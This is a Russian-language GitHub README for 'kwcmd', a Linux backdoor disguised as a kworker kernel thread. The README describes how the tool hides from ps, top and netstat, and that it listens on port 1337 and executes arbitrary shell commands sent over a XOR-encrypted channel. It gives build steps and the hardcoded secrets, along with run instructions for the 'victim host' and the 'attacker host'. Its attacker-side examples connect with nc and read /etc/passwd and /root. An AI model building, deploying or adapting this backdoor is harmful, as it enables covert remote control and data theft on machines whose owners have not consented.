 # 👻 kwcmd

**kwcmd** — это скрытый linux backdoor, маскирующийся под системный процесс `kworker`, уклоняемся от top/htop/ps/netstat/ss, замыливаем /proc/self/comm и /proc/self/cmdline слушающий TCP-порт и исполняющий команды, переданные по зашифрованному XOR каналу.
---
### 🛠️ Автор: [reeves0x0]  For TG channel https://t.me/proxy_bar 
---

## ⚙️ Возможности

- 🥷 Маскировка под `[kworker/u8:7]`
  - Изменение имени процесса (`argv[0]`, `/proc/self/comm`, `prctl`)
  - Очистка аргументов и переменных окружения
- 👻 Демонизация (двойной `fork`, `setsid`, `umask(0)`)
- 📡 TCP-сервер на порту `1337`
- 🔐 XOR-шифрование (`myxor`) + секрет-фраза (`sesame:street`)
- 🧨 Выполнение произвольных shell-команд через `popen`
- 📤 Ответ клиенту с выводом stdout

---

## 📡 Как это работает
Сначала от клиента к серверу посылается секрет-фраза (`define SECRET "sesame:street"`) если фраза верна - устанавливается канал для передачи payloads в XOR виде (`#define XOR_KEY "myxor"`) 

---

## 🧪 Настройка и Сборка (не забудь установить зависимости под свой дистрибутив)
В файлах:
- kwcmd.c  - заменить директивы на свои:
  - #define PORT 1337
  - #define SECRET "sesame:street"
  - #define XOR_KEY "myxor"

- client-attacker.sh
  - KEY="myxor"
  - SECRET="sesame:street"
  - nc 10.101.1.15 1337

```bash
gcc kwcmd.c -o kwcmd
OR
gcc -static -no-pie -o kwcmd kwcmd.c
``` 
---

## 🧨🧨🧨 Lets GO
На хосте жертвы
```bash
./kwcmd
```

На хосте атакующего
```bash
chmod +x client-attacker.sh
client-attacker.sh "date && ls -llah /root"
OR
client-attacker.sh "cat /etc/passwd"
```

![изображение](https://github.com/user-attachments/assets/1265a1d6-8523-4f39-8090-3a5612e714ed)
---

⚠️ Предупреждение

    Этот проект предоставляется только в образовательных целях. Автор не несёт ответственности за последствия использования в боевых условиях. 
